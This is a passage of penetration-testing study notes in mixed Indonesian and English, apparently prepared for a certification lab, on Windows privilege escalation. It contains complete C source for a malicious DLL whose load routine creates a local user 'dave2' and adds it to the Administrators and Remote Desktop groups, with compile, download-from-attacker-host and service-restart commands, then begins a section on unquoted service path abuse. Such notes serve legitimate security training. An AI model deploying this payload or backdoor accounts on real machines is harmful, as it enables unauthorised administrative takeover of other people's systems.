 ```c adduser.cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
  	    i = system ("net localgroup 'Remote Desktop Users' dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
10. Compile
```bash
x86_64-w64-mingw32-gcc adduser.cpp --shared -o myDLL.dll
```
11. Transfer
```bash
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll

>> move ke tempat dll yang mau dihijack
```
12. Restart service, dan boom.
```bash
Restart-Service BetaService
net user
net localgroup administrators
```

## Service Unquoted Service Paths (UnquotedServicePath) [PENTING] #IMPORTANT

POWERUP JUGA BISA DETECT. CUMA AGAIN, KALO ABUSE FUNCTIONNYA GK BISA, CEK ULANG.

> We can use this attack **when we have Write permissions to a service's main directory** or subdirectories but cannot replace files within them.
> Example: ada service dengan path di bawah
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
